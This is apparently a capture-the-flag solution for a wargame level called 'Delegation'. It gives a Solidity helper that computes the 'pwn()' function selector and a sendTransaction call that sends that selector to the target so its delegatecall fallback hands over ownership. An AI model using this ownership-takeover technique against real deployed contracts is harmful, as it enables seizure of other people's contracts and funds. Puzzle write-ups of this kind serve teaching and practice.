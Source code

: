 # Delegation

**HINT** Your going to want to go to remix IDE and create a contract that calulates the keccak256 of the pwn function used.
<details>
<summary>Answer</summary>
<p>

```
pragma solidity ^0.6.0;

contract StealOwner {
    function steal () public pure returns (bytes4) {
        return bytes4(keccak256("pwn()"));
    }
}
```
Then use:
```js
await sendTransaction({
  from: "Your_Address",
  to: "The_Contract_Address",
  data: "0xdd365b8b0000000000000000000000000000000000000000000000000000000000000000"
});
```
Then click submit
</p>
</details>
